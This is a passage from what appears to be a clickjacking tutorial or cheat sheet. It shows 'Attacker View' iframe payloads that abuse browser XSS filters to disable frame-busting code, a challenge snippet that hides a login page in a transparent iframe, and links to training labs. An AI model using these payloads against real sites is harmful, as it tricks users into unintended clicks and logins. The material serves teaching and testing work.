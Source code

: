   ```html
  </script>
  ```
  Attacker View:
  ```html
  <iframe src=”http://target site/?param=<script>if”>
  ```

### Chrome 4.0 XSSAuditor filter
It has a little different behaviour compared to IE8 XSS filter, in fact with this filter an attacker could deactivate a “script” by passing its code in a request parameter. This enables the framing page to specifically target a single snippet containing the frame busting code, leaving all the other codes intact.
  Attacker View:
  ```html
  <iframe src=”http://target site/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D”>
  ```

## Challenge
Inspect the following code:
```html
<div style="position: absolute; opacity: 0;">
  <iframe src="https://legitimate-site.com/login" width="500" height="500"></iframe>
</div>
<button onclick="document.getElementsByTagName('iframe')[0].contentWindow.location='malicious-site.com';">Click me</button>
```
Determine the Clickjacking vulnerability within this code snippet. Identify how the hidden iframe is being used to exploit the user's actions when they click the button, leading them to a malicious website.


## Practice Environments
* [OWASP WebGoat](https://owasp.org/www-project-webgoat/)
* [Client Side Clickjacking Test](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/09-Testing_for_Clickjacking)

## References
* [Clickjacker.io - Saurabh Banawar](https://clickjacker.io)
* [Web-Security Clickjacking - PortSwigger](https://portswigger.net/web-security/clickjacking)
* [Synopsys Clickjacking](https://www.synopsys.com/glossary/what-is-clickjacking.html#B)
* [OWASP - Gustav Rydstedt](https://owasp.org/www-community/attacks/Clickjacking)
* [SecTheory](http://www.sectheory.com/clickjacking.htm)
